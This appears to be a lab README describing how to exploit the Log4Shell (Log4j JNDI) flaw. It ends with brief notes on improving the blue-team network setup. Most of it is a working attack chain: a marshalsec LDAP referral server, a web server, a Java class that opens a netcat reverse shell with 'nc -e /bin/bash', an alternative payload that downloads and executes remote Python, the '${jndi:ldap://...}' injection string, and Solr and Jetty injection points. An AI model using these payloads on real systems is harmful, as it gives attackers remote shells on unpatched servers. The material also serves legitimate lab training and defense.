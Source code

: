 # Setting up a Callback Server

First - thank you to SANS who I stole this from.  https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4

From a kali box:

```
cd marshalsec
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://{kali_box_ip}:8080/#Log4JCallback"
```

From that kali box in a separate terminal:

```
python -m http.server 8080
```

Separately, on that kali box, in the same directory your webserver is now running in, drop this code into Log4JCallback.java:

```
public class Log4JCallback {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc {kali_box_ip} 8081 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```

Now compile that with `javac Log4JCallback.java`, and setup a netcat listener as mentioned in your code:

```
nc -v -l -p 8081
```

Now you've got three listeners setup.  Next you're going to send the message to the vulnerable server - the format is: `${jndi:ldap://{kali_box_ip}:1389/Log4JCallback}`.  The vulnerable server is going to log that jndi string, and Log4J is going to parse it and visit the ldap server on your Kali box at port 1389.  There it will find the marshalsec LDAP server, which will tell it to look for a Java class at a remote location, specifically your Kali box on port 8080.  The class will be requested from your Python webserver on port 8080, and will get executed on load.  That will run the "exec nc" code, calling back with a shell to your listener on port 8081.  You'll see the connections come in - with the last on your netcat port 8081 listener, and that last will be your remote shell.

You can also call back to a metasploit `web_delivery` handler by using a Log4JCallback that runs something like: `java.lang.Runtime.getRuntime().exec(new String[] {"python3", "-c", "import urllib.request; exec(urllib.request.urlopen('http://{kali_box_ip}:8080/{MSFending}').read())"});`

# Vulnerable Services

## Solr

`http://{solr-addr}:8983/solr/admin/cores?anything=${jndi...}`

`http://{solr-addr}:8983/solr/admin/configs?anything=${jndi...}`

`http://{solr-addr}:8983/solr/admin/collections?anything=${jndi...}`

## Jetty

`http://{solr-addr}/?q=${jndi...}`

`curl -H "User-Agent: ${jndi...}"`

# Improvements Needed

For defense:

1. Blue team routing is too tied in with the red team.  They are both in the same VPC so the subnets default to allowing all connections to/from everywhere...  Putting blue and red in separate VPCs with peering rules between them might allow a more real-world division.
2. Blue team needs a security onion box so they can monitor what's going on.  This may require a specific routing device in the infrastructure too.  The security onion monitoring can get attached to capture all the info headed to a routing device interface.
